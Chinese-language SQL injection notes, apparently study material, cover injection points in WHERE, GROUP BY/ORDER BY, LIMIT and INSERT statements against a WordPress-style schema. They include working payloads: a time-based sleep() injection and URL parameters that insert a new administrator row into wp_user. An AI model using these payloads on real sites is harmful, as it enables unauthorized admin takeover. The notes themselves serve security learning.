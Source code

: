 ### 注入点在WHERE或者HAVING后

```sql
SELECT title FROM wp_news WHERE id=$_GET['id']
```

基本注入方法

### 注入点在GROUP BY 或ORDER BY 后

```sql
SELECT title FROM wp_news GROUP BY $_GET['title']
```

经过测试

```
title=id desc,(if(1,sleep(1),1))
```

会延迟一秒，可以延迟注入

### 注入点在LIMIT后

使用UNION注入，PROCEDURE注入(Mysql<5.6)或者基于时间的注入

## INSERT

```SQL
INSERT INTO tbl_name VALUES()
```

### 注入点位于tbl_name

```sql
INSERT INTO $_GET['table'] VALUES (2,2,2,2)
```

可以直接控制表名插入新管理员

```
?table=wp_user values(2,'newadmin','newadmin') %23
```

### 注入点位于VALUES

```sql
INSERT INTO wp_user VALUES (2,2,'username','1')
```

如果后面对应的是管理员标识，闭合单引号和括号，即可多添加一条语句

```
?is_admin=1'),(2,2,'admin','0') %23
```



即可插入一个新的管理员
